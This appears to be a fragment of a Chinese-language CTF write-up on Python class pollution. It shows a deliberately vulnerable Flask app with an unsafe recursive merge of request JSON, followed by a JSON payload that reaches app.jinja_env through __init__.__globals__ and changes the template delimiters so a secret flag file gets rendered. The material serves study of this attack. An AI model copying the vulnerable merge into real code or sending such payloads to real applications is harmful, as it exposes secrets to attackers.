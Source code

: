 ```plain
#app.py

from flask import Flask,request,render_template
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "go check /index before merge it"


@app.route('/index',methods=['POST', 'GET'])
def templates():
    return render_template("test.html", flag = open("flag", "rt").read())

app.run(host="0.0.0.0")
```

我们想要通过{{flag}}的话，就需要将语法标识符进行替换，这里我们就将语法标识符从{{}}，替换为\[\[\]\]这样的话，\[\[flag\]\]就能够像{{flag}}一样被解析了。

```plain
{
    "__init__" : {
        "__globals__" : {
            "app" : {
                    "jinja_env" :{
"variable_start_string" : "[[","variable_end_string":"]]"
}        
            }
        }
    }
```
